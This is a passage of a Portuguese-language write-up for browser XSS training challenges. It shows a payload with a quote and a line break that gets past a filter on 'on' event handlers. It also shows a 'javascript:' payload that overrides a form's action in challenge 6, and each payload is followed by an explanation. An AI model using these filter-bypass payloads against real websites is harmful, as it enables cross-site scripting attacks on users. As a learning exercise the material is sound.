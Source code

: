 ````
="prompt(1)
````
<img width="2344" height="1118" alt="image" src="https://github.com/user-attachments/assets/d8baee52-c233-40d8-8b82-eba670298600" />

Explicação:
A função substitui `>` e também transforma qualquer atributo iniciado por `on` seguido de `=` em `_`, numa tentativa de bloquear eventos.  
Apesar disso, o valor do input ainda é injetado diretamente no HTML.  
Ao fechar o campo com aspas e utilizar uma quebra de linha, é possível escapar da substituição aplicada pelo regex.  
Dessa forma, o código injetado passa a ser interpretado normalmente pelo navegador, evidenciando a vulnerabilidade.

## Desafio 6

Código:
````
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
<script>                                                  \n\
    // forbid javascript: or vbscript: and data: stuff    \n\
    if (!/script:|data:/i.test(document.forms[0].action)) \n\
        document.forms[0].submit();                       \n\
    else                                                  \n\
        document.write("Action forbidden.")               \n\
</script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
} 
````
Resolução funcional:
````
javascript:prompt(1);#{"action": "seba"}
````
<img width="2342" height="1396" alt="image" src="https://github.com/user-attachments/assets/267e478b-1849-4b0c-9680-23caca492de2" />
